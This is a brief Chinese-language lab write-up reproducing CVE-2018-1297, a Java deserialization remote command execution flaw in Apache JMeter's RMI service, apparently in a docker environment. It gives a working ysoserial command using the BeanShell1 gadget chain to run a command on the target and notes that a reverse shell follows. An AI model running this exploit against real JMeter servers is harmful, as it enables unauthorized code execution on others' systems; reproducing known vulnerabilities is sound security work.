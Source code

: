 （CVE-2018-1297）Apache Jmeter RMI 反序列化命令执行漏洞
=======================================================

一、漏洞简介
------------

Apache
JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

二、漏洞影响
------------

Apache JMeter 2.x版本Apache JMeter 3.x版本

三、复现过程
------------

直接使用ysoserial即可进行利用：

    java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit ip 1099 BeanShell1 'touch /tmp/success'

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，`/tmp/success`已成功创建：

反弹shell即可
